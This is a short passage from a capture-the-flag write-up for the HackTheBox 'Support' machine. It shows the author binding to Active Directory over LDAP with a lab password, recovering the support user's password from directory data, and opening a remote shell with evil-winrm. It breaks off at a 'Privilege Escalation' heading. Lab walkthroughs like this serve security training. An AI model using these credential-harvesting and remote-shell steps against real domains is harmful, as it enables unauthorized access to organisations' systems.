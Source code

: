 ```bash
sudo gunzip
sudo tar -xvf
./Apache-Directory-Studio
```

Connect to the AD using ldap user creds:
- Bind DN: ldap@support.htb
- Password: `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

![alt text](Snapshots/Support-image.png)

Got the following creds of support user

```plaintext
support:Ironside47pleasure40Watchful
```

Establish a shell using evil-winrm

```bash
evil-winrm -i support.htb0 -u support -p Ironside47pleasure40Watchful
```

## Privilege Escalation
